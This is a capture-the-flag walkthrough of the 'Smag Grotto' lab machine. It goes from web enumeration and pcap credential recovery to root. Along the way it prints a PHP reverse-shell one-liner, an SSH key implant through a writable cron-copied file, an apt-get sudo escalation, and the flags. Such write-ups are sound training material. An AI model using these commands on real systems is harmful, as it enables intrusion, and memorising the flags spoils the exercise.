 # Smag Grotto

## Description

Follow the yellow brick road.

Deploy the machine and get root privileges.

## Initial scan

Let's start with an Nmap scan. The scan reveals two open ports:
* 22 ssh
* 80 http

~~~
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 74:e0:e1:b4:05:85:6a:15:68:7e:16:da:f2:c7:6b:ee (RSA)
|   256 bd:43:62:b9:a1:86:51:36:f8:c7:df:f9:0f:63:8f:a3 (ECDSA)
|_  256 f9:e7:da:07:8f:10:af:97:0b:32:87:c9:32:d7:1b:76 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Smag
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
~~~

## Web

Let's start with the web service running on port 80. The main page has nothing to offer, so I decided to run `dirsearch` on it:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Smag_Grotto]
└─$ dirsearch -u http://$IP/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt

  _|. _ _  _  _  _ _|_    v0.4.1
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 220520

Output File: /home/user/.dirsearch/reports/10.10.52.67/_21-11-24_03-20-21.txt

Error Log: /home/user/.dirsearch/logs/errors-21-11-24_03-20-21.log

Target: http://10.10.52.67/

[03:20:21] Starting: 
[03:20:25] 301 -  311B  - /mail  ->  http://10.10.52.67/mail/
[03:28:59] 403 -  277B  - /server-status

Task Completed
~~~

The result shows `/mail` directory which contains three emails and one of them has a pcap file attached to it:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Smag_Grotto/files]
└─$ curl -s "http://$IP/mail/" | grep -i "pcap"
					<a href="../aW1wb3J0YW50/dHJhY2Uy.pcap">dHJhY2Uy.pcap</a>
~~~

## PCAP file

I downloaded the pcap file using `wget`:

~~~
$ wget http://$IP/aW1wb3J0YW50/dHJhY2Uy.pcap
~~~

I opened the pcap file with `wireshark` and there is one tcp stream. Right click > Follow > TCP Stream.

Now you should see this:

<p align="center"><img src="./files/creds.png"></p>

We obtain a few things here. First one being a virtual host and a login page (`/login.php`) and we have creds to login:
* Virtual Host: `development.smag.thm`
* Username: `helpdesk`
* Password: `cH4nG3M3_n0w`

## Virtual Host

Add the host name with the IP (`<MACHINE IP>  development.smag.thm`) to your `/etc/hosts`. Now navigate to the "development.smag.thm" and login from `/login.php` with the creds we found: `helpdesk:cH4nG3M3_n0w`.

Then we are directed to `/admin.php` where we can execute commands:

<p align="center"><img src="./files/admin-php.png"></p>

## Reverse Shell

Now that we can execute commands, we can execute a reverse shell. Open a listener (`rlwrap nc -lvnp 4444`) and send the following command which is a php reverse shell:

~~~
php -r '$sock=fsockopen("<YOUR IP>",4444);exec("/bin/bash -i <&3 >&3 2>&3");'
~~~

Now we have a shell as `www-data` and the first thing I did was spawning a TTY shell using a python one-liner:

~~~
┌──(user㉿Y0B01)-[~/…/walkthroughs/thm/Smag_Grotto/files]
└─$ rlwrap nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.9.**.**] from (UNKNOWN) [10.10.52.67] 40160
bash: cannot set terminal process group (721): Inappropriate ioctl for device
bash: no job control in this shell
www-data@smag:/var/www/development.smag.thm$ which python3
/usr/bin/python3
www-data@smag:/var/www/development.smag.thm$ python3 -c "import pty;pty.spawn('/bin/bash')"
www-data@smag:/var/www/development.smag.thm$
~~~

## www-data -> jake (lateral move)

If you list `/home` directory, you can see one user on the machine: `jake`. It's obvious that we need to switch to this user first. I started looking around the machien and found a cronjob by checking `/etc/crontab`:

~~~
www-data@smag:/$ cat /etc/crontab
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
*  *    * * *   root	/bin/cat /opt/.backups/jake_id_rsa.pub.backup > /home/jake/.ssh/authorized_keys
#
~~~

This cronjob copies the content of `/opt/.backups/jake_id_rsa.pub.backup` which is a SSH public key to `/home/jake/.ssh/authorized_keys` and we have write access to it:

~~~
www-data@smag:/$ ls -la /opt/.backups/jake_id_rsa.pub.backup
-rw-rw-rw- 1 root root 563 Jun  5  2020 /opt/.backups/jake_id_rsa.pub.backup
~~~

It means we can add our own public key to this file and it is going to be copied to `jake`'s `authorized_keys`. If you don't have a public key, you can create one using `ssh-keygen`. Copy the content of the file with `pub` extention to `/opt/.backups/jake_id_rsa.pub.backup`:

~~~
www-data@smag:/$ echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQ [REDACTED] 2NenKcRDWmETp4SKM= user@Y0B01" > /opt/.backups/jake_id_rsa.pub.backup
~~~

Wait one minute, and now you can connect to the target machine via ssh as user `jake`:

~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Smag_Grotto]
└─$ ssh -i ~/.ssh/id_rsa jake@$IP
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-142-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

Last login: Wed Nov 24 04:27:08 2021 from 10.9.**.**
jake@smag:~$
~~~

## User flag

Now we can read the user flag located in `jake`'s home directory:

~~~
jake@smag:~$ ls
user.txt
jake@smag:~$ cat user.txt 
iusGorV7EbmxM5AuIe2w499msaSuqU3j
~~~

User flag: `iusGorV7EbmxM5AuIe2w499msaSuqU3j`

## Going root

Now we need to gain root access in order to read the root flag. I ran `sudo -l` to check my sudo permissions:

~~~
jake@smag:~$ sudo -l
Matching Defaults entries for jake on smag:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on smag:
    (ALL : ALL) NOPASSWD: /usr/bin/apt-get
~~~

As you can see, we can run `apt-get` with sudo and no password. I checked [GTFOBins](https://gtfobins.github.io/) and found a command the can escalate our privilege:

~~~
sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/sh
~~~

We switche to `root` using this command:

~~~
jake@smag:~$ sudo apt-get update -o APT::Update::Pre-Invoke::=/bin/bash
root@smag:/tmp# id
uid=0(root) gid=0(root) groups=0(root)
~~~

## Root flag

Now we can head to `/root` and read the root flag:

~~~
root@smag:/tmp# cd /root
root@smag:/root# ls
root.txt
root@smag:/root# cat root.txt 
uJr6zRgetaniyHVRqqL58uRasybBKz2T
~~~

Root flag: `uJr6zRgetaniyHVRqqL58uRasybBKz2T`

# D0N3! ; )

Thanks to the creator(s)!

Hope you had fun and learned something.

Have a g00d one! : )